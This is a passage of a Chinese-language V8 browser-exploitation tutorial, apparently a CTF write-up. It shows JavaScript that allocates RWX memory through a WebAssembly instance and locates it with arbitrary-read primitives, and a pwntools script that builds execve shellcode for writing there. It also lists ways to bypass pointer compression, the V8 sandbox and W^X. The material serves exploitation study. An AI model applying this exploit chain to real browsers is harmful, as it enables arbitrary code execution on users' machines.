 > [!todo] 
> 上述思路是最直接的 v8 利用思路，但是也存在指针压缩、v8 沙箱等情况，这时候可以考虑：
>
> 1. 通过 JSFunction 的 JIT 优化机制，使用立即数写 shellcode
> 2. 利用 WasmInstance 的全局变量 `imported_mutable_globals`
> 3. 篡改 MemoryChunk 使 JIT function 的 W^X 失效

但是实施起来还需要结合调试定位 RWX 内存的具体地址，是通过定位 `wasm_instance + 偏移` 获得的。

此外 `wasm_code` 的内容其实无所谓，只要去 [WasmFiddle](https://github.com/wasdk/WasmFiddle) 上用含有 main 函数的 C 语言生成一段字节码就可以了，这只是为了申请 rwx 空间并保留对其的函数引用，和 wasm 代码功能无关：

```javascript
  let wasm_code = new Uint8Array([
    0, 97, 115, 109, 1, 0, 0, 0, 1, 133, 128, 128, 128, 0, 1, 96, 0, 1, 127, 3,
    130, 128, 128, 128, 0, 1, 0, 4, 132, 128, 128, 128, 0, 1, 112, 0, 0, 5, 131,
    128, 128, 128, 0, 1, 0, 1, 6, 129, 128, 128, 128, 0, 0, 7, 145, 128, 128,
    128, 0, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109, 97, 105, 110, 0,
    0, 10, 142, 128, 128, 128, 0, 1, 136, 128, 128, 128, 0, 0, 65, 239, 253,
    182, 245, 125, 11,
  ]);
  let wasm_module = new WebAssembly.Module(wasm_code);
  let wasm_instance = new WebAssembly.Instance(wasm_module);
  let func = wasm_instance.exports.main;
  let wasm_instance_addr = get_addr(wasm_instance);
  let func_addr = get_addr(func);
  // %DebugPrint(wasm_instance);
  // %DebugPrint(func);
  // %SystemBreak();

  let rwx_addr = arb_read(wasm_instance_addr + 0x88n);
  helper.printhex(rwx_addr);
  // %SystemBreak();
```

最后就是用任意写的能力把 shellcode 到 rwx 内存中，下面给出 shellcode 的生成方式：

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from lianpwn import *
from pwncli import *

context.arch = "amd64"

shellcode = asm(shellcraft.execve("/usr/bin/xcalc", 0, ["DISPLAY=:0"]))

print("let shellcode = [")
for x in [shellcode[i : i + 8] for i in range(0, len(shellcode), 8)]:
    print(hex(u64_ex(x)), end="n, ")
print("];")
```
